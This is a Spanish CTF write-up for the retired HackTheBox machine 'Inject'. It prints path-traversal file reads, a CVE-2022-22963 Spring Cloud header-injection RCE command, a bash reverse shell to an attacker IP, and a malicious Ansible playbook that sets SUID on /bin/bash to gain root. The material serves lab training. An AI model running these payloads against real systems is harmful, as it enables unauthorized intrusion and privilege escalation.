 ```yaml
---
title: Inject Writeup
author: d3vjh
date: 2023-07-14
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, Web Enumeration, LFI, Directory Listing, Information Leakage, Spring Cloud Explotation, Abisng Cron Job, Malicious Ansible Playbook]
image: 
  path: /assets/img/commons/Inject/Inject.png
---
```


# Inject

Una máquina retirada, las cuales contempla un par de vulnerabilidades interesantes, entre ellas podemos destacar, el Spring Cloud Explotation

## Recopilación de Información

Iniciamos comprobando si tenemos comunicación con la máquina, enviando una traza `ICMP` a la `IP 10.10.11.204` 

```bash
❯ ping -c 1 10.10.11.204
PING 10.10.11.204 (10.10.11.204) 56(84) bytes of data.
64 bytes from 10.10.11.204: icmp_seq=1 ttl=63 time=88.9 ms

--- 10.10.11.204 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 88.911/88.911/88.911/0.000 ms
```
{: .nolineno }

Ahora vamos a conocer los puertos que tiene abiertos la máquina, haciendo uso de la herramienta `Nmap` 

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.204 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 08:36 -05
Initiating SYN Stealth Scan at 08:36
Scanning 10.10.11.204 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.204
Discovered open port 22/tcp on 10.10.11.204
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 65.32% done; ETC: 08:36 (0:00:05 remaining)
Completed SYN Stealth Scan at 08:36, 13.61s elapsed (65535 total ports)
Nmap scan report for 10.10.11.204
Host is up, received user-set (0.089s latency).
Scanned at 2023-07-14 08:36:29 -05 for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.80 seconds
           Raw packets sent: 67554 (2.972MB) | Rcvd: 67435 (2.697MB)
```
{: .nolineno }

Vemos que hay dos puertos abiertos, corriendo `SSH` por el puerto `22` y un servicio `HTTP` por el puerto `8080`

Ahora procedemos a enviar una serie de Scripts básicos de reconocimientos, que se enfocarán en estos dos puertos, haciendo uso de Nmap una vez más

```bash
❯ nmap -p22,8080 -sCV 10.10.11.204 -oN target
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 08:40 -05
Nmap scan report for 10.10.11.204
Host is up (0.094s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.23 seconds
```
{: .nolineno }

## Análisis de Vulnerabilidades

Encontramos un apartado donde es posible subir imágenes

![Image Upload](/assets/img/commons/Inject/ImageUpload.png)

Podemos ver que se está cargando la imagen de esta manera:

```html
http://10.10.11.204:8080/show_image?img=Wallpaper.jpg
```
{: .nolineno }

Lo que nos hace pensar en un `Local File Inclusion (LFI)`

### Local File Inclusion + Directory Listing

Utilizando la herramienta `cURL` vamos a intentar mandar una petición por GET

```bash
❯ curl -X GET 'http://10.10.11.204:8080/show_image?img=../'
java
resources
uploads
curl: (18) transfer closed with 4073 bytes remaining to read
```
{: .nolineno }

Indagando un poco en la máquina, encontramos el archivo `pom.xml` en la ruta `http://10.10.11.204:8080/show_image?img=../../../../../../var/www/WebApp/pom.xml`


![Pom.xml](/assets/img/commons/Inject/pom.xml.png)



Y observamos que está utilizando `Spring Boot`, y así mismo, `springframework.cloud`

### Information Leakage

También encotramos un archivo de configuración, con credenciales en texto claro, que posiblemente nos sirvan más adelante

```bash
❯ curl -X GET  'http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/.m2'
settings.xml
```
{: .nolineno }

![Settings.xml](/assets/img/commons/Inject/settings.xml.png)


## Explotación de Vulnerabilidades

### Spring Cloud Exploitation (CVE-2022-22963) [Spring4Shell]
Encontramos la vulnerabilidad [CVE-2022-22963](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit) la cual permite que mediante el uso de las cabeceras, y por una petición por POST al servidor con una ruta especifica, nos da una ejecución remota de comandos (RCE)


```bash
curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 {Ip Attack}")' -d '.'
```
{: .nolineno }



Ahora, creamos un archivo llamado `index.html` el cual va a contener lo siguiente, un one linner que nos permitirá establecer una reverse shell

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.27/443 0>&1
```



Montamos un servidor por el puerto `80`, con `python3`, y nos compartimos este recurso, a su vez, nos colocamos en escucha por el puerto 443, debería verse algo así:

![Server & ReverseShell](/assets/img/commons/Inject/ServerReverseShell.png)



## Post Explotación

### Abusing Cron Job

Ahora vamos a revisar como podemos escalar privilegios, para ellos, vamos a ver que tareas se están enecutando

para ello hacemos uso de `ps -eo user,command` 

debemos estar haciendo comparaciones constantes, para ver que cambios ocurren a medida que corre el tiempo, para esto, hemos creado el siguiente script en bash:

```bash
#!/bin/bash

old_process=$(ps -oe user,command)

while true; do
  new_process=$(ps -eo user,command)
  diff <(echo "$old_process") <(echo "$new_process) | grep "[\>\<]" | grep -vE "procmon|kworker|command"
done

```


Con el fin de ver este proceso:

```bash
/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml

/bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks

/usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml

/usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
```
{: .nolineno }

Vemos que está ejecutando todo lo que encuentre en `/opt/automation/tasks/\*.yml`

Luego, borra todo lo que encuentre en la carpeta, reemplazadolo por un archivo que solo tiene acceso root

### Malicious Ansible Playbook

Tenemos acceso a escritura dentro de esta ruta, por lo tanto, vamos a crear un `playbook` malicioso, que nos permita asignarle permisos `SUID` a `/bin/bash`



```yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.shell: chmod u+s /bin/bash
```



Y esperamos a que se ejecute, recordemos que esto lo está ejecuntando `root`, y pasado un tiempo, comprobamos que `/bin/bash` ya cuenta con permisos `SUID` ahora solo tenemos que ejcutarla con privilegios

```bash
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
phil@inject:/opt/automation/tasks$ bash -p
bash-5.0# whoami
root
bash-5.0# 
```
{: .nolineno }

![Inject Pwned!](/assets/img/commons/Inject/InjectPwned.png)
